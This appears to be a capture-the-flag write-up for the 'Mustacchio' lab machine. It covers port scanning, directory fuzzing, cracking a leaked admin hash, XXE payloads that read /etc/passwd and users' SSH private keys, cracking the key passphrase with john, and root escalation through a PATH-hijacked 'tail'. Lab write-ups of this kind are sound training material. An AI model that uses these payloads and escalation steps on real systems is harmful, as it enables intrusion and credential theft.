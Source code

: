 # Mustacchio writeup
## nmap -p- -sV -n 10.10.238.61 -o nmap.txt
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)

step 1. check port 80
step 2. check port 8765
step 3. check port 22

http://10.10.238.61:8765/ - gives login page(admin panel)
## directory enumerate using FFUF on port 80
ffuf -u http://10.10.238.61/FUZZ -w /usr/share/wordlists/dirb/common.txt
found a directroy **/custom**

http://10.10.238.61/custom/js/ -> found this path
there is a users.bak file
download this file using command wget http://10.10.238.61/custom/js/users.bak
file users.bak  -> helps us determine the file type. In this case it is an SQLite 3.x database, last written using SQLite version 3034001

lets try to open the same using sqlite3

$ sqlite3 users.bak                 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables    -> it list the users table
users
sqlite> SELECT * FROM users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Go to https://crackstation.net/
this is a sha1 hash with value bulldog19

## lets login to admin panel
ffuf -u http://10.10.238.61:8765/FUZZ -w /usr/share/wordlists/dirb/common.txt

Logged in using admin
It asks to add a xml comment
Checked the source code and found //document.cookie = "Example=/auth/dontforget.bak"; 
http://10.10.238.61:8765/auth/dontforget.bak - > downloaded the dontforget.bak file
dontforget.bak: XML 1.0 document
lets add the xml content found in dontforget.bak file to the comment
So the xml content we mention in the comment reflects back.
## lets try for XML injection
XML External Entity injection is working
----------------------------------------------
Refer https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext "hahah"> ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment>   
-----------------------------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment>   
-----------------------------------------------------
joe:x:1002:1002::/home/joe:/bin/bash barry:x:1003:1003::/home/barry:/bin/bash
lets try to access the home directories of joe and barry
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:////home/joe/.ssh/id_rsa'>]>
here The first two slashes (//) mark the start of the file URI after the file: scheme.
The next two slashes (//) are needed to indicate the absolute path on a local file system. These slashes are necessary when specifying the path on Unix-like systems (e.g., Linux, macOS).
-------------------------------------------------------
joe does not work. So, we try for barry
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///home/joe/.ssh/id_rsa" > ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment> 
--------------------------------------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///home/barry/.ssh/id_rsa" > ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment> 

We get barry's private key
## working with ssh private key
chmod 600 id_rsa
Change this private key to a hash file that john can understand
/usr/share/john/ssh2john.py id_rsa > hash.txt
crack this hash usinh john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
We get the value -> urieljames
lets try to ssh using barry and above password
ssh -i id_rsa barry@10.10.238.61
cat user.txt > userflag

strings live_log -> will show the content of live_log
tail -f /var/log/nginx/access.log
tail command is used to last part of the file usually logs or output files
/usr/bin/tail -> this is the absolute path of the tail when it runs

in the live_log it shows simply tail -f /var/log and not like /usr/bin/tail so it is not running with absolute path
So, we can manipulate environment path to the folder where we can create fake tail with /bin/bash

so in linux each command is executable file. here our tail instead of reading last lines will start a shell
Now tail will be run in live_log which is owneby by root and hence shell will start as root.

Lets make this in temp folder and we have read/write permission in temp folder
echo "/bin/bash" > tail 
chmod +x tail -> make this file executable
export PATH=/tmp:$PATH -> we changed the path to our /tmp
barry@mustacchio:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

lets run live_log
./live_log

We get root access and hence root flag.

Thank you








